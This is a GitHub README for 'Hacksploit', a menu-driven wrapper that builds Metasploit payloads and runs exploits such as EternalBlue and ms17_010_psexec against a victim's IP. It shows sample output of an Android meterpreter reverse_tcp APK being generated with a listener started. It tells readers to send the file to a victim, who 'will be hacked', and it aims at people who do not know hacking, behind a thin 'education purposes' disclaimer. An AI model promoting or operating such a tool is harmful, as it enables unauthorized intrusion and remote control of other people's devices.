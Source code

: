 # Hacksploit Version 3.1
A tool makes the Metasploit Payloads Easier and faster
Contains 8 payloads. Very Faster and Easier than ever. This will also save the time

{Version 3.1 has only 9 payloads but some are different payloads}
The PAYLOADS are:
```
1] Android Payload | 5] Windows 7 Hunting with IP (SMB=ms08_netapi)  | 9] HTA Exploit Windows with Link
                   |                                                 |  
2] Windows Payload | 6] PHP Payload                                  |
                   |                                                 |
3] Mac Payload     | 7] Remote Desktop (ms17_010_eternalblue)        |
                   |                                                 |
4] Linux Paylaod   | 8] Exploit Windows ONLY by IP (ms17_010_psexec) | <--Vista/XP/2000/2003
```


# Install-Hacksploit
```
git clone https://github.com/Pentesting-Lab/Hacksploit.git
```
```
cd Hacksploit
```
  
# ReadThis
This is only for education purposes. This can be useful for those who don't know hacking. They just wanted to give their IP and Payload Name and for  Remote Desktop (ms17_010_eternalblue) and Exploit Windows Vista/XP/2000/2003 ONLY by IP(ms17_010_psexec) needs Victims ip. After giving  those things easily you can hack. So it is very fast and easier and also makes the work easier. Even installer is also available. You can run it and install Hacksploit in your linux computer. Then you don't need to give cd Hacksploit. Just you can type hacksploit anywhere in your terminal. Then hacksploit wil start to run.

# What wiil the output be
~~~
    ╦ ╦┌─┐┌─┐┬┌─┌─┐┌─┐┬  ┌─┐┬┌┬┐  (Version:3.1)
    ╠═╣├─┤│  ├┴┐└─┐├─┘│  │ ││ │   (Linux)
    ╩ ╩┴ ┴└─┘┴ ┴└─┘┴  ┴─┘└─┘┴ ┴   (By Pratik(My Github account: Pentesting-Lab))




1] Android Payload | 5] Windows 7 Hunting with IP (SMB=ms08_netapi)  | 9] HTA Exploit Windows with Link
                   |                                                 |  
2] Windows Payload | 6] PHP Payload                                  |
                   |                                                 |
3] Mac Payload     | 7] Remote Desktop (ms17_010_eternalblue)        |
                   |                                                 |
4] Linux Paylaod   | 8] Exploit Windows ONLY by IP (ms17_010_psexec) | <--Vista/XP/2000/2003



Select option : 
~~~
Now select one of the option from the menu. For example I will select option 1
~~~
    ╦ ╦┌─┐┌─┐┬┌─┌─┐┌─┐┬  ┌─┐┬┌┬┐  (Version:3.1)
    ╠═╣├─┤│  ├┴┐└─┐├─┘│  │ ││ │   (Linux)
    ╩ ╩┴ ┴└─┘┴ ┴└─┘┴  ┴─┘└─┘┴ ┴   (By Pratik(My Github account: Pentesting-Lab))




1] Android Payload | 5] Windows 7 Hunting with IP (SMB=ms08_netapi)  | 9] HTA Exploit Windows with Link
                   |                                                 |  
2] Windows Payload | 6] PHP Payload                                  |
                   |                                                 |
3] Mac Payload     | 7] Remote Desktop (ms17_010_eternalblue)        |
                   |                                                 |
4] Linux Paylaod   | 8] Exploit Windows ONLY by IP (ms17_010_psexec) | <--Vista/XP/2000/2003



Select option : 1
Application Name: Pentesting-Lab    
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 10181 bytes
Payload location is /root/Desktop/Pentesting-Lab.apk

[-] ***
[-] * WARNING: No database support: No database YAML file
[-] ***
payload => android/meterpreter/reverse_tcp
lhost => 192.168.29.81
lport => 4444
[*] Started reverse TCP handler on 192.168.29.81:4444 
~~~
So this will save the payload in Desktop. It will also show.
~~~
Payload location is /root/Desktop/Pentesting-Lab.apk
~~~
After you should send the payload to victim he will be hacked. Meterpreter session willwe opened
~~~
meterpreter>
~~~
So now you can type help for more commands
